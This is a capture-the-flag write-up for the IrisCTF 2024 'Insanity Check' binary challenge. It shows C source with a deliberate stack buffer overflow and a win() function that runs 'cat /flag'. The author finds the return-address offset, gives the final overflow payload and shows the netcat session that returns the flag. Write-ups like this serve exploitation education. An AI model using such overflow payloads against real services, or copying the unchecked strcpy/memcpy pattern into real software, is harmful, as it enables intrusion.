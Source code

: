 # Insanity Check (PWN)

The challenge contains source code of the binary file.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rstrip(char* buf, const size_t len) {
    for (int i = len - 1; i >= 0; i--)
        if (buf[i] == '\n') {
            buf[i] = '\0';
            break;
        }
}

const char suffix[] = "! Welcome to IrisCTF2024. If you have any questions you can contact us at test@example.com\0\0\0\0";

int main() {
    char message[128];
    char name[64];
    fgets(name, 64, stdin);
    rstrip(name, 64);

    strcpy(message, "Hi there, ");
    strcpy(message + strlen(message), name);
    memcpy(message + strlen(message), suffix, sizeof(suffix));

    printf("%s\n", message);
}

__attribute__((section(".flag")))
void win() {
    __asm__("pop %rdi");
    system("cat /flag");
}
```
We can see that the binary file contains a bug:
```c
    rstrip(name, 64);

    strcpy(message, "Hi there, ");
    strcpy(message + strlen(message), name);
    memcpy(message + strlen(message), suffix, sizeof(suffix));

    printf("%s\n", message);
```

The `win` function is located in `.flag` section with the body `__asm__("pop %rdi");` instruction a sort of ROP gadget. So we need to find the offset to call `win` function.


We can start with debugging process and fuzzing so that we can have the offset to call win function.

![Alt text](images/image.png)

Now here we can see that the $rip is overwritten with invalid address from 50 offset. Adding 4 bytes the ".com" hex will be loaded in \$rip. 

VERIFYING THE OFFSET: 

![Alt text](images/image-1.png)

"2e636f6d" is the hex value of ".com" string and an address of the `win` function, as you can see $rip values 0x6d6f which is from ".com" hex.

Final payload:
`aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga000000`

```
└─$ nc insanity-check.chal.irisc.tf 10003
== proof-of-work: disabled ==
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga000000
irisctf{c0nv3n13nt_symb0l_pl4cem3nt}

```